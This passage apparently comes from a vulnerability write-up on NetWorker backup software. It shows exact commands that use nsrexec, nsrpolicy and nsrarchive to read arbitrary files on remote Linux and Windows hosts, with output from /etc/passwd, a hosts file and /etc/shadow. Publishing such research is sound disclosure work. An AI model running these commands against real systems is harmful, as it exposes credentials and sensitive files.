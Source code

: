 ```
121415:nsrpolicy: Command from file: rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
121415:nsrpolicy: Command from file: tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
121415:nsrpolicy: Command from file: rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
121415:nsrpolicy: Command from file: nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
121415:nsrpolicy: Command from file: sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
121415:nsrpolicy: Command from file: postfix:x:89:89::/var/spool/postfix:/sbin/nologin
121415:nsrpolicy: Command from file: chrony:x:998:995::/var/lib/chrony:/sbin/nologin
121415:nsrpolicy: Command from file: vagrant:x:1000:1000:vagrant:/home/vagrant:/bin/bash
121415:nsrpolicy: Command from file: nsrtomcat:x:1001:1001::/nsr/authc:/sbin/nologin
121415:nsrpolicy: Command from file: tcpdump:x:72:72::/:/sbin/nologin
```

Windows hosts are also affected, here we demonstrate it by reading the remote system hosts file:

```
[root@networker-client vagrant]# export RCMD='nsrpolicy input-file -f "C:\\Windows\\System32\\drivers\\etc\\hosts"'
[root@networker-client vagrant]# nsrexec -c 192.168.121.183 2>&1 | grep 'Command from file'
121415:nsrpolicy: Command from file: 
121415:nsrpolicy: Command from file: 192.168.121.92	networker-client1
121415:nsrpolicy: Command from file: 192.168.121.50	networker-client
121415:nsrpolicy: Command from file: 192.168.121.238	networker-server
--snip--
```

Another command that caught our eye is **nsrarchive**:

> nsrarchive can archive files, directories, or entire filesystems to the NetWorker server (see nsr(8)).  The progress of an archive can be monitored using the Java based NetWorker Management  Console or  the curses(3X) based nsrwatch(8) program, depending on the terminal type.  Use of nsrarchive is restricted to users in NetWorker 'administrator' list or members of the 'archive users' list or to those who possess the 'Archive Data' privilege.

This command can take filenames as input, respectively:

```
-f filename The file from which to read  default directives (see nsr(5)).
-I input_file In addition to taking the paths for nsrarchive from the command line,\
a list of paths in the named input_file will be archived.\
The paths must be listed one per line.\
If no paths are specified on the command line, then only those paths specified in the input_file will be archived.
```

Given that nsrarchive does not validate the received path, that it runs with root privileges, and that it prints out the file content on error, we can force it to print the content of sensitive files. In the example below, we make it dump the content of `/etc/shadow`:

```
nsrarchive -s 127.0.0.1 -I '/etc/shadow' -T t
Finished reading the annotation string; beginning the archive process.
87651:nsrarchive: Cannot get status on path 'root:$1$REDACTED.::0:99999:7:::':
Aucun fichier ou dossier de ce type
--snip--
```
